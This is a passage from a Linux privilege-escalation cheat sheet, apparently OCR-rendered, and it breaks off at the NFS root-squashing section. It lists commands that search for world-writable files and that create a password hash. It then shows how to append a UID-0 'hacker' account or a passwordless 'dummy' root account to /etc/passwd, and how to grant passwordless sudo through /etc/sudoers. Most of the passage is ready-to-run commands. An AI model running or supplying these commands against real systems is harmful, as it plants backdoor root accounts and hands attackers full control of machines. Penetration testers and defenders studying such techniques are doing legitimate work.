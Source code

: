 Tool: [wildpwn](https://github.com/localh0t/wildpwn)

## Writable files

List world writable files on the system.

```powershell
find / -writable ! -user \`whoami\` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### Writable /etc/passwd

First generate a password with one of the following commands.

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```powershell
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.    
WARNING: you might degrade the current security of the machine.

```powershell
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`. 

### Writable /etc/sudoers

```powershell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
```


## NFS Root Squashing

When **no_root_squash** appears in `/etc/exports`, the folder is shareable and a remote user can mount it
